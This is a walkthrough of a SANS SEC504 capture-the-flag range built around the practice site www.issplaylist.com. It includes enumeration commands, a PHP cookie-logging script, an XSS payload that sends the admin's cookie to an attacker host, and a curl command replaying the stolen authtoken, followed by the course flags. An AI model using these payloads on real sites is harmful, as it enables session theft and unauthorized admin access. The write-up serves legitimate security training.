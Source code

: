 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **www.issplaylist.com** section challenges. 
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Contact
**Question:** 
Interact with the contact form on the www.issplaylist.com website. What is the flag returned as the reference number?

**Steps Taken:**
1. Navigated to <https://www.issplaylist.com/contact.html>.
2. Typed `Mike` in the first name form box and clicked **Submit**.
3. The response page displayed the flag.

**Flag:** 
`NetWars{ReceivedSubmission}`

---

## Vulnerability Discovery
**Question:** 
Explore the Contact page on the www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.

**Steps Taken:**
1. Navigated to <https://www.issplaylist.com/contact.html>.
2. First tested **command injection** in all form fields to check for interesting errors; none were found.
3. Next tested **Cross-Site Scripting (XSS)** since other attack types didn’t fit the page’s functionality. Submitted:
   ```html
   Mike<script>alert(1)</script>
   ```
   The First Name field immediately triggered an alert, confirming XSS.

**Answer:** 
`Cross-Site Scripting`

---

## Information Gathering
**Question:** 
Identify the hidden page on the www.issplaylist.com server. Submit the page name (XXXXX.html).

**Steps Taken:**
1. Enumerated website endpoints using **ffuf**:
   ```bash
   ffuf -w common.txt -u https://www.issplaylist.com/FUZZ -s -mc 200,301
   ```
2. The following endpoints were found: `admin`, `images`, `index.html`, `res`.
3. Tested each endpoint:
   - `images` and `res` → Forbidden
   - `index.html` → Accessible (main page)
   - `admin` → Accessible (hidden admin page)
4. Alternative method with **Nmap** script scan:
   ```bash
   nmap -n --script=http-enum www.issplaylist.com
   ```

**Answer:** 
`admin.html`

---

## Cookie Theft
**Question:** 
Administrators for the www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?

**Steps Taken:**
1. Used the course cookie catcher lab script (slightly modified) to log inbound requests:

   ```php
   <?php
   // Build log entry
   $data = [
       'GET'     => $_GET,
       'POST'    => $_POST,
       'headers' => function_exists('getallheaders') ? getallheaders() : [],
   ];

   // Convert to JSON
   $json = json_encode($data, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT);

   // Append to cookies.log
   file_put_contents("cookies.log", $json . PHP_EOL, FILE_APPEND);

   // (Optional) If running via CLI SAPI, also print to stdout
   if (defined('STDOUT')) {
       fwrite(STDOUT, $json . PHP_EOL);
   }

   // Send no content back to browser
   http_response_code(204);
   exit;
   ?>
   ```

2. Started a listener:
   ```bash
   php -S 0.0.0.0:8080
   ```

3. Exploited the XSS in the First Name field to exfiltrate the cookie:
   ```html
   Mike<script>document.location="http://10.142.148.3:8080/" + document.cookie</script>
   ```

4. Monitored the terminal and `cookies.log` for the incoming request from the admin’s browser to identify the authentication cookie name.

5. *Cookie name captured in `cookies.log` after the admin views the submission (record from the exfiltrated request).* In my case it was `/authtoken=0f186582606b62965d90e772e76a8a5620b11af9`

**Answer:** 
`authtoken`

---

## Unauthorized Access
**Question:** Use the stolen cookie to access the admin page. Submit the flag.

**Steps Taken:**
1. Using the command line, `curl -k -b "authtoken=0f186582606b62965d90e772e76a8a5620b11af9" https://www.issplaylist.com/admin.html | grep -i NetWars`

**Flag:**
`NetWars{CongratsAdmin}`

---
